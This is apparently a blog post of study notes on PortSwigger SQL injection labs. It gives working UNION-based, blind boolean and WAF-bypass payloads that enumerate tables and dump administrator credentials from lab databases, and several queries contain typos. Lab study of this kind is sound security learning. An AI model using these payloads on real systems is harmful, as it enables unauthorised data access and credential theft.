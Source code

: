 ```yaml
---
title: SQL injection
tags:
  - 渗透
abbrlink: 8b56535a
description: SQL injection based on PostSwigger Lab and Rana Khalil
date: 2024-03-17 00:26:00
---
```

# SQL Injection Complete Guide by [Rana Khalil](https://www.youtube.com/@RanaKhalil101)
[PostSwigger guide](https://portswigger.net/web-security/sql-injection)

## What is SQL injection?


# Labs
[PostSwigger Lab - SQL injection](https://portswigger.net/web-security/sql-injection)

**Tools**：BurpSuite，Chrome，switchyomega

## 0x00 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## 0x01 SQL injection vulnerability allowing login bypass

## 0x02 SQL injection attack, querying the database type and version on Oracle

## 0x03 SQL injection attack, querying the database type and version on MySQL and Microsoft

## 0x04 SQL injection attack, listing the database contents on non-Oracle databases
***End Goals***:
- Determine the table that contains usernames andpasswords
- Determine the relevant columnsOutput the content of the table
- Login as the administrator user

***Analysis***:
1. Find the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
`' UNION select 'a','a'--` -> both columns accept text type
3. Version of the database
    - `' UNION SELECT @@version, NULL--` -> not Microsoft SQL and MySQL
    - `' UNION SELECT version()，NULL--` ->200 0K `PostgreSQL 12.17 (Ubuntu 12.17-0ubuntu0.20.04.1)`
4. Output the list of table names in the database
    `' UNION SELECT table_name, NULL FROM information_schema.tables--` -> search `users` -> `users_vqrxmy`
5. Output the column names of the table
    `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_vqrxmy'--` -> `password_bfrqkp` and `username_rwstyz`

6. Output the usernames and passwords
`' UNION select username_rwstyz, password_bfrqkp from users_vqrxmy--` -> `administrator` and `lftog9bgwjw81hj0feiy`


## 0x05 SQL injection attack, listing the database contents on Oracle
***End Goals***:
- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as the administrator user

***Analysis***:
1. Determine the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
Oracle database -> `' UNION select 'a','a' from DUAL--` -> both columns accept text type
3. Output the list of tables in the database
`' UNION SELECT table_name, NULL FROM all_tables--` -> search `users` -> `USERS_MQOBSV`
4. Output the column names of the users table
`' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_MQOBSV'--` -> `USERNAME_APTSKD` and `PASSWORD_QXOINH `
5. Output the list of usernames and passwords
`' UNION select USERNAME_APTSKD, PASSWORD_QXOINH from USERS_MQOBSV--` -> `administrator` and `dvqljtgry480ary2i1iu`

## 0x06 SQL injection UNION attack, determining the number of columns returned by the query

## 0x07 SQL injection UNION attack, finding a column containing text

## 0x08 SQL injection UNION attack, retrieving data from other tables

## 0x09 SQL injection UNION attack, retrieving multiple values in a single column

## 0x0A Blind SQL injection with conditional responses
Vulnerable parameter - tracking cookie
***End Goals***:
- Enumerate the password of the administrator
- Log in as the administrator user

***Analysis***:
1. Confirm that the parameter is vulnerable to blind SQLi
    1. `select tracking-id from tracking-table where trackingId = ''`
    -> If this tracking id exists -> query returns value -> Welcome back message
    -> If the tracking id doesn't exist -> query returns nothing -> no Welcome back message
    2. `select tracking-id from tracking-table where trackingId = 'RvLfBu6S9EZRIVYN" and 1=1--'`
    -> TRUE -> Welcome back
    3. `select tracking-id from tracking-table where trackingId = 'RvLfBu6S9EZRIVYN" and 1=0--'`
    -> FALSE -> no Welcome back
2. Confirm that we have a users table
`select tracking-id from trackingtable where trackingId = 'RvLfBu6S9EZRIVYN' and(select 'x'from users LIMIT 1)='x'--'`
-> users table exists in the database.

3. Confirm that username administrator exists users table
`select tracking-id from tracking-table where trackingId = 'RvLfBu6S9EZRIVYN' and (select username from users were username='administrator')='administrator'--`
-> administrator user exists

4. Enumerate the password of the administrator user
    1. `select tracking-id from tracking-table where trackingId = 'RvLfBu6S9EZRIVYN' and (select username from users were username='administrator' and LENGTH(password)>1)='administrator'--`
    -> use burp Intruder, set payload is numbers from 1 to 20 and step 1
    -> 1 < password length < 20
    2. `select tracking-id from tracking-table where trackingId = 'RvLfBu6S9EZRIVYN' and (select substring(password,1,1) from users were username='administrator')='a'--`
    -> use burp Intruder, set payload is Brute focer, min length is 1 and max length is 1
5. Combine passwords based on blasting results

## 0x0B Blind SQL injection with conditional errors

## 0x0C Visible error-based SQL injection

## 0x0D Blind SQL injection with time delays

## 0x0E Blind SQL injection with time delays and information retrieval

## 0x0F Blind SQL injection with out-of-band interaction

## 0x10 Blind SQL injection with out-of-band data exfiltration

## 0x11 SQL injection with filter bypass via XML encoding
***End Goals***: Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.

***Analysis***:
1. Find records of interactions with the backend
burp -> proxy -> HTTP history  -> `ProductId=1` and `stock`
2. Obfuscate input in a way that the WAF gets bypassed.
`1 UNION SELECT NULL` -> Extensions -> Hackvetor -> @hex_entities
3. Output the list of usernames and passwords
`1 UNION SELECT username || '~' || password FROM users` ->  `administrator` and `q1xffcev1fis39y95d17`